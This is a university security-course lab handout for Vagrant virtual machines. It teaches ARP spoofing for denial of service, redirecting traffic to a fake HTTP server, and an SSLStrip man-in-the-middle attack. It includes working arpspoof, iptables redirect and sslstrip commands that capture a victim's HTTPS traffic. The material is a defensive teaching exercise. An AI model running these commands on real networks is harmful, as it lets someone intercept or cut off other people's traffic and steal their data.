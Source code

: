 # CSCD27 Lab 8: ARP spoofing and SSLStripping

## Vagrant Setup

Make sure to setup your environment as described in the [Vagrant Setup Guideline](https://github.com/ThierrySans/CSCD27-F16/blob/master/assignments/02/VAGRANT.md).

## Initial check

*As Alice*, test that Mathlab is reachable:

```shell
vagrant@alice:~$ curl http://mathlab.utsc.utoronto.ca/
```

## ARP Spoofing (Denial Of Service)

In this part, Mallory wants to disrupt the communication between Alice and the Gateway. To do so, Mallory will broadcast spoofed ARP packets to Alice saying that the gateway can be reached through Mallory's physical address.

*As Mallory (terminal 1), broadcast spoofed ARP messages to Alice (10.0.1.101) pretending to be the gateway (10.0.1.100):

```shell
vagrant@mallory:~$ sudo arpspoof -i eth1 -t 10.0.1.101 10.0.1.100
```

Finally:

- *As Alice*, test that Mathlab is no longer reachable.
- *As Mallory*, use Wireshark to see ARP spoofed messages and failed TCP messages

## ARP Spoofing (fake HTTP server)

In this part, rather than disrupting the communication between Alice and the Gateway, Mallory wants to setup a fake HTTP server pretending to be Mathlab. To do so, Mallory will first redirect HTTP messages to a fake server before spoofing the ARP messages.

*As Mallory* (terminal 1), start a fake HTTP server listening on port 8080

```shell
vagrant@mallory:~$ cd /vagrant/mallory/fake_http
vagrant@mallory:~$ python -m SimpleHTTPServer 8080
```

*As Mallory* (terminal 2), redirect HTTP traffic (coming from eth1 on port 80) to the fake HTTP server on Mallory's:

```shell
vagrant@mallory:~$ sudo bash -c "echo '1' > /proc/sys/net/ipv4/ip_forward"
vagrant@mallory:~$ sudo iptables -t nat -A PREROUTING -p tcp -i eth1 --dport 80 -j DNAT --to-destination 10.0.1.102:8080
```

*As Mallory* (terminal 2), broadcast spoofed ARP messages as done previously

Finally:

- *As Alice*, test that Mathlab is now reachable (but is it really mathlab?)
- *As Mallory*, use Wireshark to see the (fake) HTTP exchange

## Understanding HTTPS redirects

As you may have noticed, it is possible to browse `mathlab.utsc.utoronto.ca` using both HTTP and HTTPS. You can also use curl to show the differences.

*As Alice*, use the `-v` option in curl to show the difference between HTTP abd HTTPS:

```shell
vagrant@alice:~$ curl -v http://mathlab.utsc.utoronto.ca/
vagrant@alice:~$ curl -v https://mathlab.utsc.utoronto.ca/
```

In practice, it is *strongly not recommended* to have the same content served with HTTP and HTTPS (see note about [mixed content](https://developer.mozilla.org/en-US/docs/Web/Security/Mixed_content)). Usually, the web server is configured to serve the content with HTTPS only. However, when someone uses HTTP, the server sends back a special HTTP response (HTTP Status Code 301: Moved Permanently) saying that the page has been relocated permanently to its HTTPS location. Conveniently, most web browsers follow this redirection automatically.

As an example, we have setup `http://mathlab.utsc.utoronto.ca/courses/cscd27f16/assignment/02/server/` to work like this. If you open this page (in HTTP) on your browser, you should see that you are being redirected automatically to `https://mathlab...`.

*As Alice*, use the `-v` option in curl to show the HTTP redirect response:

```shell
vagrant@alice:~$ curl -v http://mathlab.utsc.utoronto.ca/courses/cscd27f16/assignment/02/server/
```

*As Alice*, use the `-L` option in curl to follow the HTTPS redirects automatically (like most of web browsers do):

```shell
vagrant@alice:~$ curl -v http://mathlab.utsc.utoronto.ca/courses/cscd27f16/assignment/02/server/
```

## SSLStripping attack

The SSLStripping attack is a man-in-the-middle attack that aims at relaying messages between the victim and a web server. SSLStripping does not break the SSL tunnel that is resistant to man-in-the-middle attack however it works by intercepting the HTTPS redirects (sent in plaintext) to maintain an HTTP connection with the victim. Meanwhile, it sets up a connection with the server in HTTPS. Using that setup, the attacker can get all messages sent by the victim and all responses sent back from the server.

*As Mallory* (terminal 1), start an SSLStrip proxy on port 8080:

```shell
vagrant@mallory:~$ cd sslstrip-0.9
vagrant@mallory:~$ python sslstrip.py -a -w log.txt -l 8080 -f
```

*As Mallory* (terminal 2), broadcast spoofed ARP messages as done previously

Finally:

- *As Alice*, test that `http://mathlab.utsc.utoronto.ca/courses/cscd27f16/assignment/02/server/` is now reachable with HTTP
- *As Mallory*, open the file `log.txt` and see all HTTPS traffic